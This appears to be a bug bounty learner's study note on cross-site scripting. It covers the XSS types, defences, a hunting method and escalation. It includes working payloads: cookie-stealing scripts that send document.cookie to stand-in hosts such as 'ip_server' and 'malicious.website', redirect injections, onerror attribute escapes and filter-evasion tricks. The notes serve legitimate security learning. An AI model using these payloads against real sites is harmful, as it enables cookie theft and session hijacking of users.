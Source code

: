 Cross-site scripting. It is the most popular vulnerability to be found online and also to be reported on bug bounty sites like hackerone. 4 million dollars were used to pay for xss findings on only hackerone.

If the page can't differ user data from actual code that is used to create website, attacker can inject his own script into the website. User browser when rendering such page can then send someone's cookies, reveal user data, redirect user to malicious website etc. Sometimes those scripts can be in Flash, VBScript and everything that is rendered by site.

In most cases it is find by inputing something like polyglot or well-prepared payload into user input like email address input. Then the input has to be shown somewhere in order for the vulnerability to work. For example let's take newsletter input box where you should input mail if u want to sign up for newsletter. Then there is alert that the {email} subscribed to newsletter. By closing html brackets and later on inserting <script> brackets </script> we cam easily escape alert html and then inject malicious script.

Sometimes xss can be hidden in url. For example
**https://subscribe.example.com?email=EMAIL_OF_SUBSCRIPTIN ->**
https://subscribe.example.com?email=<script>location="http://attacker.com";</script>

Script that can be used for transfering cookies data:
<script>image = new Image();
image.src='http://ip_server/?c='+document.cookie;</script>

We have 3 main types of high tier vulnerability XSS: Stored, Reflected, DOM based
And there are also XSS like: blind, self,

### **Stored**
He takes place when server stores data somewhere and later on it uses it to render site It is most sensitive case, cause other users could potentially be affected by it just by browsing for example someones page.

#### **Blind**
it is  XSS that is actually stored BUT the results are shown somewhere else, or hidden from the user. For example filling contact admin info with xss, could potentially make xss on administrator, rendering malicious code in their browser. We can't really see if the xss worked, because our data isn't shown to us but rather someone else.

### **Reflected**
Its type of XSS where user input is processed and not stored. For example search bars. When we type something and hit enter we're hit with the: "You searched for {x}" and this {x} data is entirely processed by frontend and backed but its not stored anywhere. It is less critical then stored xss, because user has to somehow intereact with the hacker not only browse webpage. For Example he has to click on malicious link that can look something like this:
https://example.com/search?q=<script>alert('tiger');</script>
query could be potentially malicious and webapp could potentially load it so that script actually works like xss. It is still needed for victim to actually click link, so in some bug bounty programs people would shit on finding like that.

### **DOM-Based**
DOM is Document Object Model and it is used by browsers to render websites. It defines basic attributes, structure and behavior of website. It helps scripts reach the content of webpage and editing it. 

Site is vulnerable when it downloads user data and by the information provided it dynamically changes DOM object. JQuery is very vulnerable to DOM XSS.

Data is by its entirety processed on the frontend, so there is no actual information provided to backend, thats the difference between reflect XSS and DOM-based XSS.

Example:
https://example.com?locale=north+america ->
https://example.com?locale=<script>location='htttps:/malicious.website/?c='+document.cookie;</script>

Sometimes it can also be inside fragments of url page like:
http://example.com#about_us ->
http://example.com#<script>location='htttps:/malicious.website/?c='+document.cookie;</script>

### **Self**
It's highly unlikely to be paid in bug bounty programs cause user interaction is highly unlikely. User has to input xss by himself to some field to cause self harm. It requires social engineering practices like:
"Paste this code into your nickname for something funny to happen".

It's not stored anywhere or data isn't shown anywhere and user has to make curl by himself so its highly unikely.

## To Protect the world from devastation...
To not be victim of xss websites should use input sanitization and output escaping. Server should atleast try and verify the integrity of the input. It should angle to get rid of atleast basics of xss like blacklisting <script> </script>

### **To hunt XSS**
It can be found in places where user data is reflected back to us. Sometimes in wild it can be found in for example mails, smtp protocols, DNS, etc.

1. Try to look for ability to input data. Sometimes they can be provided by dropdown menus and/or date and time inputs. To find reflected and DOM-based XSS you have to look on the rigidly implemented queries in urls. Don't input payloads just yet. Try to inout something specific like: XSS_TurtleBB in order to later find it on the webpage. 
2. Now try payload. Basic one like <script> alert('hello') </script>
3. It doesn't probably work cause most user input nowadays is sanitized. Nothing wrong with that, we have to get fancy.
   <img onload=alert('hello') src="example.com")>
   Or using special urls like:
   javascript:alert('XSS by Vickie')
   data:text/html;base64.PHNJcm1wdD5hbGv...
   Above base64 decoded is something like <script>alert('hello')</script>
   
   Sometimes we have to close brackets of HTML. For example when there is input loaded upon image:
   url.com?input=picturemm.png so it becomes
   <img src="picturemm.png">
   
   url.com?input="/><script>location="http://attacker.com";</script> ->
   So it becomes <img src=""/><script>location="http://attacker.com";</script>
   When your script doesn't work sometimes it just fucked up syntax.
   
   Instead of escaping syntax we can embrace it for example:
   url.com?input=123" onerror="location="http://attacker.com""->
   So it becomes <img src="123" onerror="location="http://attacker.com;"">
   
   Sometimes websites also use things called filters. They can be used to sanitize special characters. We can try to use char values instead of character and use fromCharCode(104, 116, 112,  58, 47.....) or ascii(10, 25, 25.....) etc.
   
   Somtimes filters are done poorly any you can try and do stuff like: <scri<script>pt> </scri</script>pt> </script> and try to avoid them
   

	There are much more payloads to be discovered. We also have something called
	**XSS Polyglots** which are essentially payloads that should work in most scenarios. Not to be absolutely trusted by any means, but they're more likely to find vulnerability then not. 

	In some cases it is advised to try inputting special characters to see which are sanitized and which are rendered.
4. And then we should try to confirm if the payload can work.


### **Escalation**
Escalation depends mostly on XSS target/victim. It depends on which type of XSS it is and what users are endangered.  Sometimes you can hijack session of admin, because of blind-xss with putting it into reports for admin and sometimes you can just steal some data from one user who clicks link. Sometimes it can be used to render some amount of malicious website instead of normal one so that user fills data on something that we as a threat actor rendered ourselves. Automatic Redirects are also possible.

### **Automation** 
It is mainly odne by using fuzzers or burp suite intruder. 